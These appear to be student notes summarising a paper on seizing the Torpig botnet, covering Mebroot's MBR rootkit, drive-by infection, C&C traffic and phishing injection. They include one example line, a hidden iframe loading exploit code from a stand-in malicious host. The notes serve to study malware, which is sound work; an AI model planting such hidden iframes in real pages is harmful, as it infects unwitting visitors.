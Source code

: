 This paper describes their experience in actively seizing control of the Torpig botnet for ten days.

Some certain properties in the analysis:

- Torpig bots transmit identifiers that enable the defender to distinguish between individual infections.
  - Estimate the size of the botnet.
- Torpig harvest lots of sensitive information, which can be analyzed to see the quantity and nature of the data that's leaked using the infection.

#### Background

How is Torpig distributed:

- Via **Mebroot**: a rootkit that takes control of a machine by replacing the system’s Master Boot Record (MBR). The Mebroot is executed before the OS is loaded and remains undetected by anti-virus tools.

- The victims get infected by visiting web pages which include certain HTML tags that cause the browser to request JavaScript code from a website controlled by the attackers. The JavaScript code attacks the browser and its various components and tries to download an executable to the machine.

  ```html
  <iframe src="http://malicious-site.com/exploit" style="display:none;"></iframe>
  ```

![image-20241012221155915](./assets/image-20241012221155915.png)

- The executable acts as an installer for Mebroot and overwrites the MBR of the machine with Mebroot. After a few minutes, the machine automatically reboots, and Mebroot is loaded from the MBR.
- Mebroot itself doesn't attack the system itself, but manages a series of malicious modules by contacting a **Mebroot C&C server**.
- Mebroot contacts its **Mebroot C&C server** via HTTP and encryption periodically to report its current configuration (i.e., the type and version number of the currently installed modules) and to potentially receive updates.
- Mebroot injects malicious modules into common applications like web browser, email clients, instant messengers, system programs to intercept potential sensitive data.
- Periodically (20 mins), Torpig contacts **Torpig C&C server** to upload these sensitive data.
  - Fortunately, the obfuscation mechanism used by the communication is broken by experts.
  - The C&C server replies in several ways:
    - Acknowledge (`okn` response)
    - Send a configuration file (`okc` response)
- Torpig uses phishing attacks (more on this next lecture)
  - When the victim visits a certain webpage, Torpig contacts an injection server to get another *target domain* which impersonates a valid login page of a site.
  - The user is tricked into input sensitive data in the fake web page.
  - The communication with injection server is protected with HTPPS, but luckily it doesn't authenticate the server's certificate. The defender can launch a man-in-the-middle attack to intercept the communication.
